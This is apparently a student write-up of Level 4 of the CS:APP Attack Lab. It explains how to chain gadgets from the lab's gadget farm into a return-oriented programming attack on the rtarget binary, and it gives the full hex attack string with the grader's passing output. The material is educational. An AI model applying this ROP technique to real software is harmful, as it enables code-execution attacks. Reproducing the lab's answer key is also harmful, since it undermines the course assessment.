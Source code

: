 # CS:APP Attacklab Writeup
## Level 4
In this level, we can't directly inject the code into stack, instead, we must use return oriented attack, which take the advantage of the existing gadget.

To attack touch 2, we must
+ Push the cookie value `0x59b997fa` into register %rdi, and
+ call touch 2.

The cookie value `0x59b997fa` can be injected into the stack.

Before returning in `getbuf`, the stack:
```
(%rsp):	0x00401976 # The first gadget address
(%rsp+8): ....
```
To take the advantage of compat encoding of `pop` instruction, we can position the cookie value at %rsp+8.

After that, the gadget returns to `touch2`, finishing the function call.

In gadget farm, we cannot find the desired instruction `pop %rdi`.

However, this gadget can be useful:
```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret
```
From   `4019cc`, encodes:
```
popq %rax 
nop
ret
```

Next, we need to mov the value in %rax to %rdi.

We can use this gadget code, starting from address `0x4019a2`:
```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
```

Therefore we can construct the attack string:
```
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 11 11 11
cc 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
a2 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```


```
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 11 11 11 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```